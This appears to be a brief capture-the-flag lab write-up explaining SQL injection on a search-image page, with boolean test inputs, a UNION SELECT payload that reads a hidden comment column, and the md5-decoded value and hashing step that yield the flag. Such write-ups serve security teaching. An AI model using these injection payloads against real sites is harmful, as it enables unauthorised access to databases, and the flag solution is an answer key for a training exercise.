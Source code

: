 On: /index.php?page=searchimg

You can see that the query is vulnerable just by trying "1 or 1=1" and then "1 and 1=2"
The first time you get a result and the second time just nothing

From the first SQL Injection flaw we know that the table "list_images" contains a "comment" column
To display it: 1 UNION SELECT title, comment FROM list_images
-> If you read this just use this md5 decode lowercase then sha256 to win this flag ! : 1928e8083cf461a51303633093573c46
-> albatroz

Finally sha256 on it to get the flag
